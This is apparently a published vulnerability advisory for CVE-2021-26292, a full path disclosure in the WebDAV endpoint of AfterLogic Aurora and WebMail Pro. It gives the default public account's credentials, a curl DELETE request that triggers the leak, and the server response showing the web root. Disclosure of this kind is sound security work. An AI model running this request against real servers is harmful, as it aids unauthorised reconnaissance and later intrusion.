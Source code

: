 # **CVE-2021-26292**  - Public Full Path Disclosure on AfterLogic Aurora & WebMail Pro WebDAV EndPoint

**The severity of the issue:** Medium

**Complexity:** Easy

**Affected Products:** AfterLogic Aurora, AfterLogic WebMail PRO

**Authentication:** Not required

**Attacks:** Full Path Disclosure

## **Resources :**

* https://owasp.org/www-community/attacks/Full_Path_Disclosure
* https://owasp.org/www-community/attacks/Path_Traversal

## **Authors :**

* Emre KELEŞ - @emrekeles on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/emrekeles.svg?style=social&label=Follow%20%40emrekeles)](https://twitter.com/emrekeles)
* Emircan YILDIZ - @scorpsec on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/scorpsec.svg?style=social&label=Follow%20%40scorpsec)](https://twitter.com/scorpsec)
* Halil Emre ÖZEN - @halilemreozen on twitter [![Twitter URL](https://img.shields.io/twitter/url/https/twitter.com/halilemreozen.svg?style=social&label=Follow%20%40halilemreozen)](https://twitter.com/halilemreozen)

## **Report Summary :**
AfterLogic Aurora and WebMail Pro products with 7.7.9 and all lower versions are affected by this vulnerability, simply sending an HTTP DELETE request to WebDAV EndPoint with built-in “**caldav_public_user@localhost**” and it’s the predefined password “**caldav_public_user**” allows the attacker to obtain web root path.

## **To Reproduce :**

Get the web root path with the following curl command

```shell
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
```

## **Response :**

``` xml
<?xml version="1.0" encoding="utf-8"?>
<d:error xmlns:d="DAV:" xmlns:s="http://sabredav.org/ns">
  <s:exception>Sabre\DAV\Exception\NotFound</s:exception>
  <s:message>File with name /var/www/html/www/webmailpro.dev/data/files/private/caldav_public_user@localhost/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021 could not be located</s:message>
</d:error>
```

In this scenario : **/var/www/html/www/webmailpro.dev** is the web root path, this data is especially becomes valuable for the file upload vulnerabilities.

## **Technical Description:**

* dav\server.php (handles the request, create the \afterlogic\DAV\Server instance )
* \libraries\Sabre\DAV\server.php -> exec (Pass the request method and uri to invokeMethod)
* \libraries\Sabre\DAV\server.php -> invokeMethod 
* \libraries\Sabre\DAV\server.php -> httpDelete
* \libraries\Sabre\DAV\Tree.php -> delete
* \libraries\Sabre\DAV\ObjectTree.php -> getNodeForPath
* \libraries\Sabre\DAV\FS\Directory.php -> getChild

Get web root path vulnerability starts on step 7 / getChild, at the \Sabre\DAV\Exception\NotFound('File with name ' . $path . ' could not be located') line **$path** variable contains web root path

With the above problem any loggable user can obtain web root path, with the caldav_public_user@localhost user, attackers don’t need any user info because it has a predefined password, so vulnerability becomes publicly accessible.
